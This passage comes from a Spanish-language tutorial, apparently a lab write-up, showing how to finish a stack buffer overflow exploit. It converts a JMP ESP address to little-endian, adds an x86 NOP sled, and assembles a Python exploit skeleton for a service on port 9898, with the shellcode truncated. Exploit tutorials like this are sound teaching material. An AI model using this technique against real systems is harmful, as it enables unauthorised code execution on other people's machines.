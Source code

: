 Lo puedes agregar de una vez al Exploit, pero el **OpCode** debe ir en formato **Little Endian** que básicamente es ponerlo de atrás hacia adelante de la siguiente forma:
```bash
\x55\x9d\x04\x08 -> JMP ESP 8049d55
```

Se agregaría en la variable **eip**:
```python
eip = b"\x55\x9d\x04\x08"  # OpCode JMP ESP 8049d55
```

Vayamos al siguiente paso.

<br>

<h3 id="NOPs">Noveno Paso: Aplicando NOPs en Exploit</h3>

¿Qué son los **NOPs**?

| **No Operation (NOPs)** |
|:-----------:|
| *Los NOPs (del inglés No Operation, "sin operación") son instrucciones en lenguaje máquina o ensamblador que no realizan ninguna acción útil, excepto avanzar al siguiente ciclo de la CPU. Permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.* |

<br>

Es muy simple, únicamente debemos agregar la siguiente instrucción que es para **arquitectura x86**:
```bash
b"\x90"
```
El **NOP**, se puede multiplicar por 16 o por 32, pero en nuestro caso, al no tener tantas instrucciones, podemos multiplicarlo por 16.

Esto lo podemos agregar al Exploit en la variable **after_eip** junto al **Shellcode**:
```python
after_eip = b"\x90"*16 + shellcode  # ESP = Combinación de NOPs con shellcode
```
Sigamos.

<br>

<h3 id="Exploit">Décimo Paso: Prueba y Ejecución de Exploit</h3>

Con los datos que ya hemos obtenido, nuestro Exploit debería quedar así:
```python
#!/usr/bin/python3

import socket

# Variables globales
ip_addr = "127.0.0.1 o VíctimaIP"
port = 9898

def exploit(ip_addr, port):

        offset = 112

        before_eip = b"A" * offset  # Limite de binario

        eip = b"\x55\x9d\x04\x08"  # OpCode JMP ESP 8049d55

        shellcode =  b""
        shellcode += b"\xdb\xda\xbd\xba\xee\x62\x1...
	...
	...
	...

        after_eip = b"\x90"*16 + shellcode  # ESP = Combinación de NOPs con shellcode

        payload = before_eip + eip + after_eip
```